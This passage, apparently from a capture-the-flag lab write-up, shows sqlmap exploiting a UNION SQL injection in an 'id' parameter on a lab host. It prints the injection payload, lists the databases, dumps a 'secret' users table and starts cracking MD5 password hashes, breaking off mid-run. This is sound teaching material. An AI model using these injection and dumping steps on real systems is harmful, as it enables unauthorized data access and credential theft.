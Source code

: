 Then I’ll start `sqlmap`. Because I want it to focus on the UNION injection,
I’ll give it `--technique U`:

    
    
    oxdf@hacky$ sqlmap -r view.php-request -p id --batch --technique U
    ...[snip]...
    GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 19 HTTP(s) requests:
    ---
    Parameter: id (GET)
        Type: UNION query
        Title: Generic UNION query (NULL) - 5 columns
        Payload: mod=admin&view=repod&id=plans UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x716b626b71,0x4d6e48486a5148534d617a767650764754777a476a4e45615761746245506c667571654a7a49446e,0x7170716271),NULL-- -
    ---
    [20:22:01] [INFO] testing MySQL
    [20:22:02] [INFO] confirming MySQL
    [20:22:02] [INFO] the back-end DBMS is MySQL
    back-end DBMS: MySQL >= 5.0.0
    [20:22:04] [INFO] fetched data logged to text files under '/home/oxdf/.sqlmap/output/10.10.10.71'
    

I’ll add `--dbs` to list the databases:

    
    
    [20:36:27] [INFO] fetching database names
    available databases [7]:
    [*] complain
    [*] information_schema
    [*] joomla
    [*] mysql
    [*] performance_schema
    [*] secret
    [*] sys
    

`secret` is interesting. I’ll start there.

Replace `--dbs` with `-D secret --tables`:

    
    
    [20:37:07] [INFO] fetching tables for database: 'secret'
    Database: secret
    [1 table]
    +-------+
    | users |
    +-------+
    

Now I’ll dump that table with `-D secret -T users --dump`:

    
    
    [20:37:30] [INFO] fetching columns for table 'users' in database 'secret'
    [20:37:30] [INFO] fetching entries for table 'users' in database 'secret'
    [20:37:31] [INFO] recognized possible password hashes in column '`Password`'
    do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
    do you want to crack them via a dictionary-based attack? [Y/n/q] Y
    [20:37:31] [INFO] using hash method 'md5_generic_passwd'
    what dictionary do you want to use?
    [1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
    [2] custom dictionary file
    [3] file with list of dictionary files
    > 1
    [20:37:31] [INFO] using default dictionary
    do you want to use common password suffixes? (slow!) [y/N] N
    [20:37:31] [INFO] starting dictionary-based cracking (md5_generic_passwd)